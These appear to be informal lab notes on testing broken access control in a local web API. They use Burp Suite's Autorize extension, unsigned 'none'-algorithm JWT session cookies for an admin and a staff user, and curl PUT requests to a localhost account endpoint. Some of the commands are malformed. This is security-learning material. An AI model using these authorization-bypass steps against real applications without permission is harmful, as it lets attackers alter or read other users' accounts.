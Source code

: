 now here we got the jessamy token 
`eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJ1c2VyIjoiamVzc2FteSIsInJvbGUiOiJhZG1pbiJ9.`

Back on burp on Autorize settings 
we can add a cookie here and what the application will do is whenever we send a request it will send the same request but this cookie or this token instead so for e.g if we send a request with jeremy token to update jeremy account its going to try and send the same request but with jessamy cookie if that make sense 
copy paste jessamy token in autorize 
`Cookie: session=eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJ1c2VyIjoiamVzc2FteSIsInJvbGUiOiJhZG1pbiJ9.`
add the jessamy name and click okay switch autorize onn
Back to terminal 
Before we call the new endpoint and the structure is slightly different because we are now passing JSON Web Token as a cookie rather than as the query string or in the body of the request but essentially its the same thing 

use jeremy token here 
```python
┌──(cyber㉿kali)-[~]
└─$ curl -X PUT "Content-Type: application/json" -b "session=eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJ1c2VyIjoiamVyZW15Iiwicm9sZSI6InN0YWZmIn0=." -d '{"username": "jeremy", "bio": "new bio v2"}' http://localhost/labs/api/v2/account.php
curl: (3) URL rejected: Malformed input to a URL function
{"status":"success","message":"Bio updated successfully"}   
```

add --proxy localhost:8080 so burp can catch it
```python
curl -X PUT --proxy localhost:8080 "Content-Type: application/json" -b "session=eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJ1c2VyIjoiamVyZW15Iiwicm9sZSI6InN0YWZmIn0=." -d '{"username": "jeremy", "bio": "new bio v2"}' http://localhost/labs/api/v2/account.php`
```

![[../Screenshot from 2024-06-02 07-55-33.png]]
and we can see that the authorization flagged as bypassed this is definitely something worth investigating 
and then u can change the endpoint to account2.php and saw the reqeust in burp and then put the jessamy token instead and saw the request in burp in autorize as enforced 
Once u setup u can test a lot of endpoints and lots of different pieces of functionality  lets say u are logged in  as a user and you want to go and update their account or u want  to update their email password access areas of application that other users should not be able to access u can do all of that quickly comeback to authorize see whats bypassed and see whats enforced 